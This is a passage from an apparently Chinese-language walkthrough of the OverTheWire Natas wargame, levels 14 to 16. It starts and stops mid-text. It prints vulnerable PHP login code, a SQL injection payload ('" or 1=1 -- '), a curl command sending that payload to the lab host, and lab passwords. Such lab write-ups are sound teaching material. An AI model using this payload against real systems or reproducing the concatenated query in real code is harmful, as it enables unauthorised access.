 然后上传就完了.

## level 14 to 15

natas15: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {}
?>
```

从源码来看，是SQL注入，只要查询出的行数大于0就能输出密码。

payload: username=`" or 1=1 -- `

注意`根据SQL标准，注释符 -- 必须后跟至少一个空格或一个控制字符（如换行），否则会被视为普通字符的一部分。`

然后在用curl命令时如果传递的参数含特殊字符的话要用`--data-urlcode`长选项。

```bash
curl -u natas14:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP \
--get  \
--data-urlencode 'username=" or 1=1 -- ' \    
-d 'debug' \                                         
http://natas14.natas.labs.overthewire.org/index.php \
| htmlq 'body' | bat -l html
```

## level 15 to 16

natas16: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

这一次的密码来之不易。

源码：

```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```